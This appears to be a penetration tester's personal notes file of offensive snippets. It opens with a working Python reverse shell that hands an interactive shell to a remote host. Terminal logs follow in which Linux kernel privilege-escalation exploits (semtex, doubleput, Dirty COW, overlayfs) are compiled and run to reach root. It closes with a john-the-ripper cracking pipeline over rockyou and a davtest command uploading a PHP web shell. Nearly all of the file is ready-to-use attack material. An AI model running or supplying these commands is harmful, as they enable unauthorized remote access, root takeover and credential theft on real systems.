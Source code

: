 # notes

## python reverse shell
(redirect stdin, stdout, stderr to open socket)  
import socket,subprocess,os,sys  
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)  
s.connect((sys.argv[1],int(sys.argv[2])))  
os.dup2(s.fileno(),0)  
os.dup2(s.fileno(),1)  
os.dup2(s.fileno(),2)  
p=subprocess.call(["/bin/sh","-i"])  

## old centos
bash-4.1$ /usr/bin/gcc -O2 semtex.c -o semtex  
/usr/bin/gcc -O2 semtex.c -o semtex  
bash-4.1$ chmod +x semtex  
chmod +x semtex  
bash-4.1$ ./semtex  
./semtex  
2.6.37-3.x x86_64  
sd@fucksheep.org 2010  
-sh-4.1#  

## Linux kernel 4.4 < 4.5.5 w/CONFIG_BPF_SYSCALL
www-data@dolphin:/tmp$ ./doubleput  
./doubleput  
starting writev  
woohoo, got pointer reuse  
writev returned successfully. if this worked, you'll have a root shell in <=60 seconds.  
suid file detected, launching rootshell...  
we have root privs now...  
root@dolphin:/tmp#  

## dirtycow
bash-4.2$ ./cowroot  
./cowroot  
id  
uid=0(root) gid=48(apache) groups=0(root),48(apache)  

## overlayfs
$ gcc overlayfail.c -o overlayfail  
$ ./overlayfail  
root@vps1723:/tmp#  

## awk
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  

## john
awk '{print "admin:XAMPP with WebDAV:" $0}' /usr/share/wordlists/rockyou.txt | john hashes.txt --format=raw-md5 --pipe  

## webdav
davtest -url http://10.13.1.146/webdav -auth admin:s3cr3t -uploadfile shell.php -uploadloc shell.php  
